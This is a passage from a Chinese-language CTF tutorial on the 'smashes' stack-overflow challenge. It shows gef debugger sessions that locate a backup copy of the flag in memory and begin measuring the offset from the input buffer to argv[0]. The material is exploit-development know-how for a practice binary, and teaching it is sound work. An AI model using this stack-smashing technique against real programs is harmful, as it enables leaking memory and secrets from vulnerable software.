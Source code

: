 ```asm
gef➤  find 22222
Argument required (expression to compute).
gef➤  find '22222'
No symbol "22222" in current context.
gef➤  grep '22222'
[+] Searching '22222' in memory
[+] In '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes'(0x600000-0x601000), permission=rw-
  0x600d20 - 0x600d3f  →   "222222222's the flag on server}" 
[+] In '[heap]'(0x601000-0x622000), permission=rw-
  0x601010 - 0x601019  →   "222222222" 
gef➤  grep PCTF
[+] Searching 'PCTF' in memory
[+] In '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes'(0x400000-0x401000), permission=r-x
  0x400d20 - 0x400d3f  →   "PCTF{Here's the flag on server}" 
```

可以看出我们读入的 2222 已经覆盖了 0x600d20 处的 flag，但是我们在内存的 0x400d20 处仍然找到了这个flag的备份，所以我们还是可以将其输出。这里我们已经确定了 flag 的地址。

#### 确定偏移

下面，我们确定 argv[0] 距离读取的字符串的偏移。

首先下断点在 main 函数入口处，如下

```asm
gef➤  b *0x00000000004006D0
Breakpoint 1 at 0x4006d0
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes 

Breakpoint 1, 0x00000000004006d0 in ?? ()
 code:i386:x86-64 ]────
     0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
     0x4006c6 <_IO_gets@plt+6> push   0x9
     0x4006cb <_IO_gets@plt+11> jmp    0x400620
 →   0x4006d0                  sub    rsp, 0x8
     0x4006d4                  mov    rdi, QWORD PTR [rip+0x200665]        # 0x600d40 <stdout>
     0x4006db                  xor    esi, esi
     0x4006dd                  call   0x400660 <setbuf@plt>
──────────────────────────────────────────────────────────────────[ stack ]────
['0x7fffffffdb78', 'l8']
8
0x00007fffffffdb78│+0x00: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax	 ← $rsp
0x00007fffffffdb80│+0x08: 0x0000000000000000
0x00007fffffffdb88│+0x10: 0x00007fffffffdc58  →  0x00007fffffffe00b  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/exam[...]"
0x00007fffffffdb90│+0x18: 0x0000000100000000
0x00007fffffffdb98│+0x20: 0x00000000004006d0  →   sub rsp, 0x8
0x00007fffffffdba0│+0x28: 0x0000000000000000
0x00007fffffffdba8│+0x30: 0x48c916d3cf726fe3
0x00007fffffffdbb0│+0x38: 0x00000000004006ee  →   xor ebp, ebp
──────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x4006d0 → sub rsp, 0x8
[#1] 0x7ffff7a2d830 → Name: __libc_start_main(main=0x4006d0, argc=0x1, argv=0x7fffffffdc58, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdc48)
---Type <return> to continue, or q <return> to quit---
[#2] 0x400717 → hlt 

```
